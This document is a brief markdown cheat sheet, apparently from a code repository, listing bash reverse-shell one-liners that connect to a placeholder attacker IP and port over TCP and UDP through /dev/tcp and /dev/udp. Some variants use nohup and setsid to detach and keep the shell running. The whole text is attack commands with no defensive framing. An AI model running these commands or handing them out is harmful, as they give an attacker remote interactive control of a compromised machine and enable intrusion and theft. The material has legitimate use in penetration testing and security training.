 # Reverse Shell

## 01 - TCP Protocol

One-liners.

```
/bin/bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1

nohup setsid /bin/bash -c '/bin/bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1'

nohup 0<&103-;exec 103<>/dev/tcp/<attacker_IP>/<attacker_PORT>; bash <&103 >&103 2>&103 &2>/dev/null; sleep 1; exit
```

## 02 - UDP Protocol

One-liners.

```
/bin/bash -i >& /dev/udp/<attacker_IP>/<attacker_PORT> 0>&1

nohup setsid /bin/bash -c '/bin/bash -i >& /dev/udp/<attacker_IP>/<attacker_PORT> 0>&1'

nohup 0<&103-;exec 103<>/dev/udp/<attacker_IP>/<attacker_PORT>; bash <&103 >&103 2>&103 &2>/dev/null; sleep 1; exit
```